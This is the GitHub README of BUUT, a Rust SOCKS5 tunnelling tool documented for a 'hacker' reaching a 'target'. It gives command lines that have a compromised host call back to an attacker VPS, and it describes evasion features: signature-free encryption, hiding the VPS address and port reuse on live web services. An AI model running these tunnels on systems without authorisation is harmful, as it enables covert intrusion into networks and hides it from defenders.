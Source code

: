 # BUUT 

https://github.com/YDHCUI/buut


## 介绍 
一款使用rust开发的高性能正反向隧道代理工具，基于yamux多路复用技术。


## 工作原理
```rust
+------+      +--------------+      +-----+      +-----------+      +------------+      +----------+      +------+
|Hacker| <--> | Socks5 stream| <--> | VPS | <--> |Yamux frame| <--> |Noise stream| <--> |TCP stream| <--> |Target|
+------+      +--------------+      +-----+      +-----------+      +------------+      +----------+      +------+
```

## 参数介绍 
```rust
    opts.optopt("k", "key",             "", "加密密钥");
    opts.optopt("l", "listen_addr",     "", "监听地址");
    opts.optopt("s", "remote_addr",     "", "远程地址");
    opts.optopt("f", "forward_addr",    "", "转发地址,只支持正向");
    opts.optopt("p", "proxy_port",      "", "代理端口,默认10086 或得端口转发模式,本地端口:目标端口,如80:81");
    opts.optopt("m", "transport",       "", "协议类型,默认TCP,支持<TCP|KCP>");
    opts.optopt("c", "config",          "", "配置文件,默认路径./conf.toml");
    opts.optopt("n", "name",            "", "客户端id");
    opts.optopt("", "channel",          "", "通道数量,默认1");
    opts.optopt("", "headers",          "", "连接配置,连接服务所需的一些其它配置如cookie之类的");
    opts.optopt("", "sockspass",        "", "代理密码,默认buut/buut");
    opts.optopt("", "noiseparams",      "", "加密方式,noise默认Noise_KK_25519_ChaChaPoly_BLAKE2s");
    opts.optopt("", "srcip",            "", "来源IP,端口复用时使用");
    opts.optflagopt("F", "forward",     "", "是否正向模式");
    opts.optflagopt("S", "service",     "", "是否服务模式");
    opts.optflagopt("X", "soreuse",     "", "是否端口复用");
    opts.optflagopt("O", "origins",     "", "是否流量加密");
    opts.optflagopt("Z", "compres",     "", "是否流量压缩"); 
```

## 特点：

速度快，使用多路复用技术 rust开发，速度、稳定性和安全性都有保证。

体积小，编译打包后只有不到几百k, 相比golang写的程序动辄10多M还是很有优势的。

无特征，程序使用Noise定制加密，可使用动态密钥保证无任何特征。

单文件，客户端和服务端使用同样的单文件、多模式自由组合切换。

多协议，目前已支持tcp、kcp，后续把icmp、dns协议支持加进去。



## 使用方法 

### 反向隧道

默认使用tcp连接反向隧道
```bash
    vps执行：          ./buut -l 443 
    target执行：       ./buut -s vps:443
    hacker连接socks5   vps:10086 


    vps:
    [root@localhost]# ./buut -l 443
    Reverse Server Listen [tcp://0.0.0.0:443]
    Client Handshake From 127.0.0.1:29505
    Agent ID [rmSyYaLX] Proxy Listen [0.0.0.0:10086]

    target:
    [root@localhost]# ./buut -s 127.0.0.1:443
    Reverse Agent ID [rmSyYaLX] Channel [1] Connect Suss

```

使用-S 参数启用服务模式，会同时监听tcp和kcp端口
```bash
    vps执行：          ./buut -S -l 443 
    target执行：       ./buut -s vps:443
    hacker连接socks5   vps:10086 
```


### 正向隧道

使用-F 参数连接tcp正向隧道
```bash
    target执行：       ./buut -F -l 443 
    vps执行：          ./buut -F -s target:443 
    hacker连接socks5   vps:10086 

    target:
    [root@localhost]# ./buut -F -l 443
    Forward Agent ID [3Yj2LLAg] Listen On [tcp://0.0.0.0:443]

    vps:
    [root@localhost]# ./buut -F -s 127.0.0.1:443
    Forward Server [tcp://127.0.0.1:443] Connect Suss
    Agent ID [3Yj2LLAg] Proxy Listen [0.0.0.0:10086]
```

如果服务需要登录才能访问 则使用headers参数设置cookie等请求头。
```bash
    target执行：       ./buut -F -l 1234
    vps执行：          ./buut -F -s https://target:1234/xx --headers Cookie:Session=xxxxxx;
    hacker连接socks5   vps:10086 
```


### 自建代理

```bash
    vps执行：          ./buut -F -S -l 10086
    user连接socks5     vps:10086 

    vps:
    [root@localhost]# ./buut -S -F -l 10086
    Socks5 Server ID [FPamyVyY] Listen On [tcp://0.0.0.0:10086]

```

### 端口映射

```bash
    vps执行：          ./buut -l 443
    target执行         ./buut -s vps:443 -p 81:80  

    vps:
    [root@localhost]# ./buut -l 443
    Reverse Server Listen [tcp://0.0.0.0:443]
    Agent ID [rmSyYaLX] Port Mapping On [0.0.0.0:81 <-> 192.168.1.21:80]

    target:
    [root@localhost]# ./buut -s 127.0.0.1:443 -p 81:80 
    Reverse Agent ID [rmSyYaLX] Channel [1] Connect Suss

```

### Tips

1、设置BUUT变量隐藏vps。 如： 原本的 ./buut -s vps:1234 可改成 export BUUT=vps:1234 && ./buut -s 1

2、buut默认启用密码校验，默认用户名密码buut:buut 。

3、如果需要修改sockspass则需要为每个agent端单独设置，如 ./buut -s 127.0.0.1:443 --sockspass 123456

4、 使用带log的版本进行调试。 ./buut -l 1234 --log info 


## 端口复用

1、假设现在有一个web服务运行在8080端口，正常情况下直接监听8080是会报如下错误
    
```bash 
    buut.exe -F -l 8080
    通常每个套接字地址(协议/网络地址/端口)只允许使用一次。 (os error 10048)
```
2、现在使用 -X 参数设置SO_REUSEADDR则可以成功监听  
```bash 
    buut.exe -X -F -l 8080
    Agent Forward ID [SCrLfzxa] Listen On [tcp://0.0.0.0:8080]

```
3、使用SO_REUSEADDR能成功的前提是原服务也启用了SO_REUSEADDR。如果原服务没有启用SO_REUSEADDR则不能成功。这时候可以使用 --srcip参数设置客户端源IP 通过转发来实现端口复用。
```bash 
    [root@localhost buut]# ./buut -X -F -l 32001
    Address already in use (os error 98)

    [root@localhost buut]# ./buut -X -F -l 32001 --srcip 192.168.2.122
    Rule src:192.168.2.122 port:32001 redirect:32002 applied Succ!
    Agent Forward ID [EJ1TROJd] Listen On [tcp://0.0.0.0:32002]
    Rule src:192.168.2.122 port:32001 redirect:32002 Delete Succ!

```
4、客户端正常连接web端口就行
```bash 
    [root@localhost buut]# ./buut -F -s 123.151.152.153:32001
    GET / HTTP/1.1
    Upgrade: websocket
    Origin: http://123.151.152.153:32001/
    Sec-WebSocket-Version: 13
    Connection: Upgrade
    Sec-WebSocket-Key: ogq+DC9z2RVSsf86PpMizw==
    Host: 123.151.152.153:32001


    HTTP/1.1 101 Switching Protocols
    Sec-Websocket-Accept: o99zKAbgLJAkj09CtFiz7MMFpVU=
    Upgrade: websocket
    Connection: upgrade


    Server forward [tcp://123.151.152.153:32001] Connect Suss
    Client [123.151.152.153:32001]-[172.16.16.12] Join [D212ts4C]
    Agent ID [D212ts4C] Proxy Listen On [socks5://buut:buut@0.0.0.0:10086]
```
## 交流 

加V 

![a8e5625b211ad3b3c435e9403ebae9f](https://github.com/YDHCUI/buut/assets/46884495/6c667bb1-7eae-464f-afbd-3f0d67cbcbcb)


